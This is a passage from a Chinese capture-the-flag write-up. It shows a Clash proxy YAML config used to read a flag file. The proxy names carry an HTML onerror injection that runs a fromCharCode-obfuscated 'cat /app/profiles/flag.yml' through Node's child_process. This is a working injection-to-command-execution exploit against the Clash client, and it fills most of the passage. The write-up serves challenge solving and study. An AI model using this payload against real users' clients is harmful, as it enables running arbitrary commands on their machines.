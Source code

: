 flag1需要读配置文件。我猜官方的意思是想办法让clash自己导入这个文件，然后去界面里看。但我们都能运行任意命令了，直接cat就好了。可是我没注意到`cat /app/profiles/flag.yml`里又是斜杠又是空格的，都需要转义，实测逗号也不能用，最终只有这样才可以：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=alert(require("child_process").execSync(String.fromCharCode(99)+String.fromCharCode(97)+String.fromCharCode(116)+String.fromCharCode(32)+String.fromCharCode(47)+String.fromCharCode(97)+String.fromCharCode(112)+String.fromCharCode(112)+String.fromCharCode(47)+String.fromCharCode(112)+String.fromCharCode(114)+String.fromCharCode(111)+String.fromCharCode(102)+String.fromCharCode(105)+String.fromCharCode(108)+String.fromCharCode(101)+String.fromCharCode(115)+String.fromCharCode(47)+String.fromCharCode(102)+String.fromCharCode(108)+String.fromCharCode(97)+String.fromCharCode(103)+String.fromCharCode(46)+String.fromCharCode(121)+String.fromCharCode(109)+String.fromCharCode(108)).toString('utf-8'));>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=alert(require("child_process").execSync(String.fromCharCode(99)+String.fromCharCode(97)+String.fromCharCode(116)+String.fromCharCode(32)+String.fromCharCode(47)+String.fromCharCode(97)+String.fromCharCode(112)+String.fromCharCode(112)+String.fromCharCode(47)+String.fromCharCode(112)+String.fromCharCode(114)+String.fromCharCode(111)+String.fromCharCode(102)+String.fromCharCode(105)+String.fromCharCode(108)+String.fromCharCode(101)+String.fromCharCode(115)+String.fromCharCode(47)+String.fromCharCode(102)+String.fromCharCode(108)+String.fromCharCode(97)+String.fromCharCode(103)+String.fromCharCode(46)+String.fromCharCode(121)+String.fromCharCode(109)+String.fromCharCode(108)).toString('utf-8'));>
    type: select
    proxies:
    - a<img/src="1"/onerror=alert(require("child_process").execSync(String.fromCharCode(99)+String.fromCharCode(97)+String.fromCharCode(116)+String.fromCharCode(32)+String.fromCharCode(47)+String.fromCharCode(97)+String.fromCharCode(112)+String.fromCharCode(112)+String.fromCharCode(47)+String.fromCharCode(112)+String.fromCharCode(114)+String.fromCharCode(111)+String.fromCharCode(102)+String.fromCharCode(105)+String.fromCharCode(108)+String.fromCharCode(101)+String.fromCharCode(115)+String.fromCharCode(47)+String.fromCharCode(102)+String.fromCharCode(108)+String.fromCharCode(97)+String.fromCharCode(103)+String.fromCharCode(46)+String.fromCharCode(121)+String.fromCharCode(109)+String.fromCharCode(108)).toString('utf-8'));>
```
